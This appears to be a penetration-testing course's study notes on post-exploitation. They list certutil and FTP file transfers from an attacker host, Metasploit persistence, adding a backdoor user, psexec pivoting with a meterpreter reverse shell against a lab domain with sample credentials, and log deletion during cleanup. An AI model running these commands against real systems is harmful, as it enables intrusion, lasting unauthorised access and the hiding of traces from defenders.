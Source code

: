 # 19. Post Exploitation

## File transfers

- Windows - Certutil
	- certutil.exe -urlcache -f http://URL filename
- HTTP
	- python -m SimpleHTTPServer 80
- Browser
	- Navigate directly to file
- FTP
	- python -m pyftpdlib 21 (attacker machine)
	- ftp attacker_ip
- Linux
	- wget
- Metasploit
	- Upload/ download feature in meterpreter

## Maintaining access

- Persistence scripts
	- run persistence -h
	- exploit/windows/local/persistence
	- exploit/windows/local/registry_persistence
- Scheduled tasks
	- run scheduleme
	- run schtaskabuse
- Add a user
	- net user hacker password123 /add

## Pivoting
- Load up metasploit
- use exploit/windows/smb/psexec
- Set options
	- set rhosts 192.168.57.141
	- set smbdomain marvel.local
	- set smbpass Password1
	- set smbuser fcastle
	- set payload windows/x64/meterpreter/reverse_tcp
	- set lhost eth0
	- set target 2
- route print or ipconfig
- arp -a
- run autoroute -s 10.10.10.0/24
- run autoroute -p 
- background
- search portscan, use tcp scan
- set options

> Check out pivoting through proxychains

## Cleaning up
- Make the system/network as it was when you enterd it
	- Remove executables, scipts, and added files
	- Remove malware, rootkits and added user accounts
	- Set settings back to original configuration

- Red team perspective (not too much with pentesting)
	- Delete logs and any traces

